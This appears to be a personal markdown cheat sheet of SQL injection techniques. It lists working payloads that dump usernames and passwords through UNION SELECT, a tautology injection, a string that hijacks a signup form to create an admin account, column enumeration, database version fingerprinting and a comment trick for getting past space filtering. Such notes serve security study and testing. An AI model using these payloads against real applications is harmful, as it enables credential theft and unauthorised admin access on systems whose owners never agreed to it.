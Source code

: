 # SQLi notes

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`

#### Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:
`SELECT * FROM users WHERE ID=1`
To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.
`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`
If data from only first part of query is returned, we can invalidate it:
`ID=1 AND 1=2 UNION SELECT 1,2,3--`
If this returns our own values, we can start emumerating sys info:
`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`
sometimes adding a comment at the end of query can complete the injection `--` `#` `--+-`
Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:
`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*
`UNION` only selects distnict, use `UNION ALL` to select duplicates
To begin an attack, try to break the string with an invalidation
Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function
